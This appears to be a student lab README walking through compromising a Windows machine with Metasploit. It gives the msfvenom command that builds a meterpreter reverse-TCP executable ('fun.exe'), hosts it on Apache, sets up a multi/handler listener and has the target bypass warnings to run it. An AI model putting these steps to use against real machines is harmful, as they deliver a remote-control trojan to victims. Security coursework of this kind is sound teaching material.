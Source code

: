 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT :

### Find the attackers ip address using ifconfig

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/01c5be4f-d110-4f45-88ba-3fa20c901454)

### Create a malicious executable file fun.exe using msenom command
 **sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/1fc78e30-3309-499c-97f2-0a162c6277fe)

### copy the fun.exe into the apache
**/var/www/html folder**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/cf556404-70fb-4bd2-8a0b-96f75e64abaa)

### Start apache server 
**sudo systemctl apache2 start**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/8c0e6c41-d22b-4960-96d3-94b3cc8cc288)

### Check the status of apache2
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/d00df03b-095b-41de-ba7f-1239529123e0)

### Invoke msfconsole :

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/e3c58ef7-0586-41fa-9037-f1c654be417a)

### Type "HELP" or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/a89d09fd-9512-4fa1-b0e6-07f76badfb7f)

### Starting a command and control Server use multi/handler 
**set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit**

![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/5bbc881e-b4e0-4f64-8749-2a1d8cfb308e)

### On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: 
**http://192.168.1.2/fun.exe The file "fun.exe" downloads.**
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/25055a5b-3b87-4c43-b5f0-48770d7a0860)

### Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/Jayabharathi3/Compromising-windows-using-Metasploit/assets/120367796/de441e8f-f4ac-4fd5-b6a1-385cbee9f847)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
